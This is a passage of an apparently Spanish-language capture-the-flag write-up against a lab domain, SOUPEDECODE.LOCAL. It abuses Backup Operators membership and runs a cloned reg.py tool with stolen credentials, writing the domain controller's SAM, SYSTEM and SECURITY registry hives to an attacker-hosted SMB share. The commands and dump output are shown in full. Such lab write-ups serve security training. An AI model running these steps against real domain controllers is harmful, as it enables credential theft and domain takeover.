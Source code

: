 Vemos la siguiente linea interesante:

```
# Zach Ximena, Users, SOUPEDECODE.LOCAL
dn: CN=Zach Ximena,CN=Users,DC=SOUPEDECODE,DC=LOCAL
memberOf: CN=Backup Operators,CN=Builtin,DC=SOUPEDECODE,DC=LOCAL
```

Vemos que pertenecemos al grupo `Backup Operators` por lo que podremos aprovechar esto para poder obtener informacion utilizando un `exploit`:

URL = [Exploit Backup Operators](https://github.com/horizon3ai/backup_dc_registry?tab=readme-ov-file)

Nos clonaremos el repositorio a nuestro `host`:

```shell
git clone https://github.com/horizon3ai/backup_dc_registry.git
cd backup_dc_registry/
```

Teniendo el archivo `reg.py` lo ejecutaremos de la siguiente forma:

Pero antes por lo que vemos en el comando tendremos que abrir un servidor `SMB` desde el `host` para que podamos obtener le `backup` o la informacion de la cual estamos pidiendo al `DC`:

```shell
mkdir smbshare
impacket-smbserver -smb2support 'share' ./smbshare
```

Info:

```
mkdir: cannot create directory ‘smbshare’: File exists
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Ahora ejecutaremos lo siguiente:

```shell
python3 reg.py zximena448:'internet'@<IP_VICTIM> backup -p '\\<IP_ATTACKER>\share'
```

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Dumping SAM hive to \\192.168.28.5\share\SAM
Dumping SYSTEM hive to \\192.168.28.5\share\SYSTEM
Dumping SECURITY hive to \\192.168.28.5\share\SECURITY
```
